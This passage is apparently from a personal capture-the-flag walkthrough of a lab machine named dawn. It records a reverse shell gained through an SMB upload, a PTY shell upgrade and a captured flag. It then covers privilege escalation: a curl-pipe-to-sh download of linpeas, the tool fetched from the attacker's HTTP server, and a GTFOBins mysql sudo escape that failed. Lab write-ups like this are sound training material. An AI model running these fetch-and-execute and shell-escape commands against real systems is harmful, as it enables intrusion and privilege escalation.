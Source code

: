```smbclient
put product-control
```
	putting file product-control as \product-control (0.2 kb/s) (average 0.2 kb/s)

Now wait for a reverse shell
![[Pasted image 20231112230456.png]]
Great now to upgrade the shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20231112230710.png]]
Local Flag `279d4ade3ebfb3edb0280e1f971cb626`

## Priv Esc

Now run Linpeas
```sh
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
	curl does not exist on the target system

Move to `/tmp` & get linpeas.sh from the web source on target
```sh
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
```
	Seems dawn has no dns.

Need to set up python server and download file from attack machine in the same directory as `linpeas.sh`
```sh
sudo python3 -m http.server 80
```

On target
```sh
wget 192.168.45.247/linpeas.sh
```

Add perms and run
```sh
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

Found these
	User dawn may run the following commands on dawn:
	    (root) NOPASSWD: /usr/bin/mysql
	SUID
		-rwsr-xr-x 1 root root 842K Feb  4  2019 /usr/bin/zsh

So check for escalations
https://gtfobins.github.io/gtfobins/mysql/#sudo

```sh
mysql -e '\! /bin/sh'
```
	Didn't work
